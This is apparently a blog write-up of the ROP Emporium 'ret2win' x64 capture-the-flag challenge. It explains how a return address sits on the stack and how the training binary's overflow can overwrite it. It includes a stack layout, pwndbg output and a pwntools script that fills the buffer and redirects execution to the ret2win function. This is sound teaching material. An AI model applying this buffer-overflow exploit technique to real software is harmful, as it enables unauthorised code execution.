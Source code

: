 ```yaml
---
layout: page
permalink: /ROP_emporium/ROP-x64-Challenge-1
title: ROP x64 Challenge 1
comments: true
date: 2022-07-13
---
```


## Challenge 1 Ret2win

This challenge introduces the concept of a buffer overflow and controlling the instruction pointer of an executable. An important thing to know is that all the computer does is look at a chunk of binary in memory and then execute what it tells the computer to do. Then it looks at the next chunk of memory and so on and so forth.

However, occasionally the code needs to jump to other parts of code in order to function correctly (think of an if statement or a loop). To do this the computer simply reads an instruction that tells it to jump to a different part of code, say 20 values up/down from where it is now. 

That works great for loops and if statements, but programmers often want to call code from many different parts of the program (think functions). So in the middle of doing A, I want the program to stop, go do B, then come back and finish A. I also want to be able to do that while doing C, D, and F. The problem for the program, is once it finishes B, where does it go back to, A, C, D or F. It has to store that information somewhere and it is stored on the stack, which can be considered the memory of every function. The first thing a function does is store where it should return to on the stack and the last thing a function does is tell the computer to return back to that location.

What we are going to try and do is change that value on the stack so when the program returns to that stored location it returns to where we want it to go.

We see from running the ret2win binary that it will "attempt to fit 56 bytes of user input into 32 bytes of stack buffer!" and after looking at the stack in [[pwndbg]] we are able to see the following layout:

> ./ret2win 
	ret2win by ROP Emporium
	x86_64
	For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
	What could possibly go wrong?
	You there, may I have your input please? And don't worry about null bytes, we're using read()!

All local variables are on the stack and a base pointer (which we don't have to worry about). So assuming there are no other local variables, there is 40 bytes bytes between the read and the return pointer. We can craft a payload like this:
```
        | stack          |
        | -------------- |
8 bytes | start buffer   |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | base pointer   |
8 bytes | return pointer | # where we are going to return to
8 bytes | -------------- |

```
By writing in the first 32+8 bytes of garbage, we are then able to write whatever we want into the return pointer. So all we have to do is look to see what the value should be.
```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
...
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
...
pwndbg>
```

Looking at the functions in the binary we see there is one called ret2win or return here to win which seems super promising. Piecing that all together and we get the following exploit.

```python
from pwn import *

io = process('./ret2win')


# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

new_IP = p32(0x00400756) # The ret2win pointer

payload = junk + new_bp +  new_IP

# Print the payload for debugging puropses
print("The payload is:")
print(payload)

# wait for debugger to be attached
input("Hit enter to apptempt exploit")

# read the output and send the payload
print(io.clean(0.5).decode("utf-8"))
io.send(junk+new_bp + new_IP)



# Once done debugging, read the output
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))


```

The exploit will print out the pid of the process and then wait in order to attach gdb with `gdb -p $pid` for debugging it live.

